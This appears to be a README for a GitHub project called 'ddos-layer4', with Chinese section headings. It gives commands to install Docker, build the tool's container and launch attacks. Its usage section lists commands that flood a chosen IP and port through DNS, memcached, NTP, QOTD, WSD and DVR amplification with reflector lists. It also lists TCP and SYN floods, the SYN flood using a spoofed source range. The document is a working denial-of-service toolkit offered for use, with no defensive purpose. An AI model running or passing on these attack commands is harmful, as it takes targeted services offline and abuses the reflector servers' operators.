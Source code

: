 ### Ubuntu Docker 安装

	apt update -y && apt install curl -y && curl -fsSL https://test.docker.com -o test-docker.sh && sudo sh test-docker.sh

### ddos-layer4安装

	apt install git -y && git clone https://github.com/qq1521575701/ddos-layer4.git && cd ddos-layer4 && docker build -t ddos-layer4 . && docker run -itd --name ddos-layer4 --network host ddos-layer4:latest && rm -rf ~/ddos-layer4


### ddos-layer4容器

	docker exec -it ddos-layer4 /bin/bash

### ddos-layer4使用

	docker exec -it ddos-layer4 ./dns ip port dns.txt 1 -1 60

	docker exec -it ddos-layer4 ./meme ip port meme.txt 1 -1 60

	docker exec -it ddos-layer4 ./qotd ip port qotd.txt 1 -1 60

	docker exec -it ddos-layer4 ./wsd ip port wsd.txt 1 -1 60

	docker exec -it ddos-layer4 ./dvr ip port dvr.txt 1 -1 60

	docker exec -it ddos-layer4 ./ntp ip port ntp.txt 1 -1 60

	docker exec -it ddos-layer4 ./tcp ip port 1 -1 60

 	docker exec -it ddos-layer4 ./syn ip port 1 -1 60 8.128.0.0/10
